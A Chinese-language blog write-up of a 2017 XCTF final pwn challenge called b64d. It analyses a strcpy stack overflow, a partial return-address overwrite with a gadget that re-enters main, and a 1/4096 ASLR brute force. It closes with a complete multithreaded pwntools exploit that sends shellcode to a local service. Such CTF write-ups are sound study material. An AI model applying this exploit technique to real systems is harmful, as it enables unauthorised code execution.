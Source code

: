 ```yaml
---
layout:     post
title:      "2017XCTF决赛题 -- b64d"
subtitle:   "从一道看似普通的栈溢出开始的探索"
date:       2017-10-01 22:46:25
author:     "Carter"
header-img: "img/post-bg-os-metro.jpg"
tags:
    - Fuzz
    - pwn
---
```


### 写在前面

前段时间有幸代表战队参加了2017年XCTF总决赛，和国内国外的大佬们有了现场过招的机会。该次决赛赛制也很有意思，不再采用两天都是攻防赛的形式，我是引入了目前IT圈内的大明星 -- 人工智能。总决赛总共两天，第一天是各个战队使用自己开发的AI工具，对主办方放出的题目进行自动化的fuzz，只有当fuzz出该题目的崩溃后，人类选手才能得到该题的二进制程序文件，进行分析和利用的开发；第二天则是过去的老套路，放出了4道pwn题（此次没有web题，心疼web选手），进行现场的攻防竞赛。

此篇博文，不是挑选比赛中最难的题目进行说明，而是拿一道我觉得比较有意思的题目，依此作为研究的起点，进行一些探索。这道题是我们的AI工具在第一天比赛开始后几分钟就fuzz出崩溃的一道题，名称叫做b64d，很明显的一个栈溢出漏洞，本来以为会轻松利用，结果后续研究过程却很有意思。下面由我细细道来。

###  一. 漏洞分析

   漏洞存在于main函数内，允许读入2048个base64编码后的字符串，将解码后的字符串v5通过strcpy函数复制到栈上，导致了栈溢出。
![img](https://raw.githubusercontent.com/carterMgj/blog_img/master/2017-10-01-b64d/1.png)

​      程序是amd64结构，保护措施只开了堆栈地址随机化
![img](https://raw.githubusercontent.com/carterMgj/blog_img/master/2017-10-01-b64d/2.png)

### 二. 难点探寻

​     这个简单的栈溢出题目为什么有趣呢？原因在于当我们覆盖其返回地址为shellcode地址时，strcpy遇到'\x00'发生了截断，因此不能够完全覆盖返回地址到bss段存放shellcode的地址。其返回地址覆盖前是一个so库中的地址，因此一旦修改错误程序就会跳到未知的地方，从而崩溃。
![img](https://raw.githubusercontent.com/carterMgj/blog_img/master/2017-10-01-b64d/3.png)

​      因此，我们只能在原本的一个so库地址上进行小范围修改。而so库的基址每次都是随机的，我们把返回地址覆盖到哪里？这是亟待解决的问题

### 三. 解决方法

>3.1 探索

1. 我们从上图中可以看到，在栈顶往下4个地址处，有一个main函数开始的地址。试想：如果我们把返回地址修改成这个地址，再让main函数再运行一次，到ret时的返回地址会不会发生变化呢？（抱着''死马当作活马医的心态"试试看）  
  于是在gdb中手动修改了ret为main函数开始的地址，再一次回到ret处。此时可喜的看到，ret地址已经是0x0了，此时我们就可以随意覆盖返回地址到任意地方了
  ![img](https://raw.githubusercontent.com/carterMgj/blog_img/master/2017-10-01-b64d/4.png)

2. 那么该如何完成第一步我们的假设？很容易想到在第一次到达ret时，需要将程序的控制流返回到“pop pop pop ret”上，执行完这串gadget后，程序就刚好可以返回到栈顶往下第4个地址 – main函数起始处。

3. 要在so库中，找到一个'pppr'地址并不难，需要我们斟酌的是：

 - 选取哪个so库中哪个'pppr'序列？

 - 栈溢出时，覆盖ret本来的地址时，覆盖几个字节？

 - 并且同时需要考虑到：strcpy在拷贝时，会在末尾自动添加一个字节的'\x00'  ​

>3.2 落实

1. 先来通过实践，看看在开启地址随机化的情况下，so库的地址范围有什么变化：
  0x00007f739fea0000 --  0x00007f73a0060000  
  0x00007f938edf9000 --  0x00007f938efb9000  
  可以看出，每一次so库的基址，后面6个字节都是随机的；在同一次运行过程中，不考虑有进位的情况下，so库地址后3个字节是变化的，前面的字节是相同的。这将作为我们研究的理论基础。

2. 在第一次覆盖ret时，此时该地址中存放的是  __libc_start_main+240 这一个地址，在我本机的so库计算偏移为：0x20830.  设想一下以下情况的合理性：在0x20830附近（因为要防止差得太多会导致进位的问题，因此在附近找最保险）寻找gadget，我们通过ROPgadget找到了一个0x202e3的gadget满足我的条件，我将ret地址的后两个字节通过栈溢出覆盖为‘\x02\xe3’，由于strcpy的原因，因此原来的ret地址会被覆盖为‘0x00007fxxxxxx0002e3’  
  ​        接着我们逆向思考，当so库的基址是满足什么条件时，其0x202e3偏移的地址会满足‘0x00007fxxxxxx0002e3’。不难得出结论，即：so库基址的后6位是0xfe0000。从第4步的实验中可以轻松得到，此种概率为 1/4096

3. 如果第5步成功的命中，那么接下来就好办了：再一次运行main函数，利用栈溢出覆盖ret为bss段存放shellcode的地址即可。

### 四. 增加爆破效率
   由于命中的概率为 1/4096，是一个很小的概率，因此如何增加爆破效率是我们要解决的问题。在此我做了以下两点工作：

 - 同时开启了40个线程，用并发加快命中概率
 - 每次运行时，先读取 '/proc/pid/maps' 文件，检查so库加载基址是否为 0xfe0000，如果不是则退出，缩短了单个程序运行时间
     ![img](https://raw.githubusercontent.com/carterMgj/blog_img/master/2017-10-01-b64d/5.png)
        最终跑出来的时间还是和人品有关系，但在40个线程的情况下，最多用时10分钟也都能跑出来了。

### 五. 利用代码
```python
from pwn import *
import base64
import time
import datetime
import threading

flag=0

def monitor(pid):
	f = open('/proc/{}/maps'.format(pid))
	data = f.read().split('\n')
	f.close()
	for item in data:
		if '/lib/x86_64-linux-gnu/libc-2.23.so' in item:
			print item[0:item.find('-')]
			if item[6:12]=='fe0000':
				return True
			return False

def pwn():
	global flag
	#context.log_level = 'debug'
	while 1:
		if flag:
			exit(0)

		io = remote('127.0.0.1',2333)
		try:
			pid = pidof('b64d')[0]
			print 'pid = {}'.format(pid)
			if monitor(pid):
				print 'Find it'
				flag = 1
				#gdb.attach(pid,open('debug'))

			padding = 'A'*56
			shellcode = asm(shellcraft.amd64.linux.sh(),arch='amd64')


			payload1 = padding + '\xe3\x02'
			payload1 = base64.b64encode(payload1)
			io.sendline(payload1)
			io.recv(1024)

			#time.sleep(1)

			shellcode_addr = 0x602119
			payload2 =  base64.b64encode('a'*56 + p64(shellcode_addr)) + '\x00' + shellcode
			io.sendline(payload2)
			io.recv(1024)
	
			io.interactive()
			# 	break
		except KeyboardInterrupt:
			io.close()
			break
		except:
			io.close()
			pass
		

if __name__=='__main__':
	thread = []
	starttime = datetime.datetime.now()


	for i in range(40):
		t = threading.Thread(target=pwn,args=())
		thread.append(t)
		t.start()

	for i in thread:
		i.join()

	endtime = datetime.datetime.now()
	print (endtime - starttime).seconds
```